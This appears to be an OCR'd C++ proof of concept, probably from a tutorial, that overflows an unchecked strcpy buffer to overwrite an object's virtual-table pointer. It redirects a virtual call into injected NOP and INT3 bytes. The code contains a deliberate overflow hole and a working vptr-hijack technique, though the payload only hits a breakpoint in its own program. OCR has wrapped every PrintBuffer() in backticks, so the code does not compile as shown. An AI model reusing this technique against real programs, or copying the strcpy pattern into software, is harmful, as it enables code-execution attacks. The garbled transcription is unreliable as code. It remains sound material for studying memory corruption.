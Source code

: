 
```c++
#include <stdio.h>
#include <string.h>
#include <malloc.h>

class BaseClass { 
private:
 char Buffer[32];
public:
 void SetBuffer(char *String) {
  strcpy(Buffer,String);
 }
 virtual void `PrintBuffer()` {
  printf("%s\n",Buffer);
 }
};

class MyClass1:public BaseClass {
public:
 void `PrintBuffer()` {
  printf("MyClass1: ");
  BaseClass::`PrintBuffer()`;
 }
};

class MyClass2:public BaseClass {
public:
 void `PrintBuffer()` {
  printf("MyClass2: ");
  BaseClass::`PrintBuffer()`;
 }
};

char *BufferOverflow(unsigned long BufferAddress,int NAddress,int VPTROffset) {
 char *Buffer;
 unsigned long *LongBuffer;
 unsigned long CCOffset;
 int i;
 
 Buffer=(char*)malloc(VPTROffset+4+1);

 CCOffset=(unsigned long)VPTROffset-1; 
 for (i=0;i<VPTROffset;i++) Buffer[i]='\x90';
 LongBuffer=(unsigned long*)Buffer;
 for (i=0;i<NAddress;i++) LongBuffer[i]=BufferAddress+CCOffset;
 LongBuffer=(unsigned long*)&Buffer[VPTROffset];
 *LongBuffer=BufferAddress;
 Buffer[CCOffset]='\xCC';
 Buffer[VPTROffset+4]='\x00';
 return Buffer; 
}

void main() {
 BaseClass *Object[2];

 Object[0]=new MyClass1;
 Object[1]=new MyClass2; 
 Object[0]->SetBuffer(BufferOverflow((unsigned long)&(*Object[0]),4,32));  
 Object[1]->SetBuffer("string2");
 Object[0]->`PrintBuffer()`;
 Object[1]->`PrintBuffer()`;
}
```
